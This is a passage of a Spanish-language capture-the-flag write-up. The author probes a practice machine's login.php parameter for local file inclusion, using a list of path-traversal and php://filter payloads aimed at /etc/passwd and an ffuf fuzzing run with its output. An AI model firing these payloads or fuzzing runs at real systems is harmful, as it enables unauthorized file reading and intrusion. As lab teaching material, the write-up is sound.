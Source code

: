 Esta pinta tiene la página de login.php:

![Web]({{ 'assets/img/writeups/Timing/web.png' | relative_url }}){: .center-image }

Abajo tiene alguna cosilla más, pero todas redirigen a la misma página login.php.

Al probar a logearnos con un usuario cualquiera, en mi caso probe admin:admin nos muestra que el "usuario o contraseña es inválido" con lo que parece no dar pistas si un usuario es válido, y lo interesante es que en la url se muestra un parámetro:

![UrlParam]({{ 'assets/img/writeups/Timing/urlparam.png' | relative_url }}){: .center-image }

En el valor del parámetro podría probar algunas inyecciones o ataques LFI. Mando estas en el lugar de true:
```
/etc/passwd
file:///etc/passwd
../../../../../../../../etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
php://filter/convert.base64-encode/resource=/etc/passwd
..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
php://filter/resource=/etc/passwd
/etc/passwd%00
../../../../../../../etc/passwd%00
```
Pero todas me dan la misma respuesta. Normalmente me fijo en el Content-Lenght, si es el mismo tamaño de respuesta es que no funciona.  
Lanzo un ataque de fuerza bruta con ffuf por posibles LFI:
```sh
❯ ffuf -c -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://10.10.11.135/login.php?login=FUZZ' -fs 5963 -p 0.5

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.135/login.php?login=FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Delay            : 0.20 seconds
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 5963
________________________________________________

:: Progress: [920/920] :: Job [1/1] :: 157 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
Opciones:  
-c: coloreado.  
-w: diccionario.  
-fs : oculta el size que le pongas.  
-p: tiempo de delay entre petición. Para que vaya menos rápido y se asegure bien.
